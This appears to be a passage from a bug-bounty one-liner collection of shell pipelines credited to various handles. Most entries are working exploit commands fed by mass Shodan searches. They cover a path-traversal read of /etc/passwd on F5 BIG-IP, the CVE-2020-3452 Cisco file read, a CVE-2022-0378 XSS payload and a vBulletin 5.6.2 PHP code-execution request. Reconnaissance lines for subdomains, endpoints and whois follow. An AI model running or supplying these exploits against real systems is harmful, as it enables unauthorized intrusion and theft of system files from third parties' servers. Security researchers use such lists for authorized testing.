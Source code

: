 > shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done

### CVE-2020-3452 @vict0ni

> while read LINE; do curl -s -k "[https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2BCSCOE%2B/portal_inc.lua&default-language&lang=../](https://$line/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../)" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt

### CVE-2022-0378 @7h3h4ckv157

> cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution @Madrobot_

> shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;

### Find JavaScript Files @D0cK3rG33k

> assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done

### Extract Endpoints from JavaScript @renniepak

> cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

### Get CIDR & Org Information from Target Lists @steve_mcilwain

> for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done

### Get Subdomains from [RapidDNS.io](http://rapiddns.io/) @andirrahmani1

> curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u

### Get Subdomains from BufferOver.run @ayoubfathi @AnubhavSingh_

> curl -s https://dns.bufferover.run/dns?q=.HOST.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
